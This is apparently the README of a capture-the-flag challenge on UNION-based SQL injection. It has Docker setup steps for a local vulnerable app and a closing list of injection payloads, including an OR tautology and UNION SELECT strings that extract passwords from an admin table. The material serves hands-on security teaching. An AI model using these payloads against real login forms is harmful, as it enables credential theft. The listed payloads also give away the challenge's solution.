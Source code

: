 # UNION-based SQL Injection — CTF Challenge

## Summary

Goal: extract the admin password (flag) using a UNION SELECT.

## Quick start (Docker Compose)
1. Build and start:
```bash
docker-compose build
docker-compose up -d
```
2. Visit: http://localhost:5000
3. Use the username field to inject UNION payload and retrieve the flag.

## ' OR '1'='1
## nonexistent' UNION SELECT 1, 2, 3 -- 
## nonexistent' UNION SELECT username, password, 'x' FROM admin -- 
## nonexistent' UNION SELECT NULL, password, NULL FROM admin -- 
## nonexistent' UNION SELECT 1, password, 'x' FROM admin # 
## nonexistent' UNION SELECT 1, password, 'x' FROM admin -- 


